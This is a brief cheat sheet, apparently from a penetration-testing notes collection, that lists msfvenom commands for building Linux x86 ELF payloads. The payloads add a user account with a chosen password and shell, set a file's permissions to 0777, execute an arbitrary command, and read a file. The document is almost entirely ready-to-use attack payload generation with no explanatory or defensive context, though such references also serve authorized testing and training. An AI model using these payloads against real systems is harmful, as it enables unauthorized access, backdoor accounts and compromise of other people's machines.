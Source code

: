 # Exec Payloads

## Add User Linux Exec Payload

`$ msfvenom -p linux/x86/adduser user=<username> pass=<password> shell=/bin/sh -f elf`

## Execute Linux Exec Payload

`$ msfvenom -p linux/x86/chmod file=/path/to/file mode=0777 -f elf -o exec-chmod-file-x86`

`$ msfvenom -p linux/x86/exec cmd=<command> -f elf -o exec-cmd-x86`

`$ msfvenom -p linux/x86/read_file fd=1 path=/path/to/file -f elf -o read-file-x86`